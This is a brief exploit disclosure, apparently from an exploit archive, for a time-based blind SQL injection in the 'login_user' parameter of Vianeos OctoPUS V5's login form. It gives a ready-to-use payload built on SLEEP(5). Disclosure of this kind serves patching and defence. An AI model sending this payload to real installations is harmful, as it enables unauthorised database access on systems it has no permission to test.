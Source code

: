 # vianeos-octopus_V5_SQLi




# Exploit Title: Vianeos OctoPUS 5 - 'login_user' SQLi
# Date: 01/07/2021
# Vendor Homepage: http://www.vianeos.com/en/home-vianeos/
# Software Link: http://www.vianeos.com/en/octopus/
# Version: > V5
# Tested on: Fedora / Apache2 / MariaDB




Octopus V5 SQLi

The "login_user =" parameter present in the POST authentication request is vulnerable to an Time Based SQLi as follow :

```
Parameter: login_user (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: signin_user=1&login_user=1' AND (SELECT 8860 FROM (SELECT(SLEEP(5)))xENj) AND 'OoKG'='OoKG&password_user=1
```
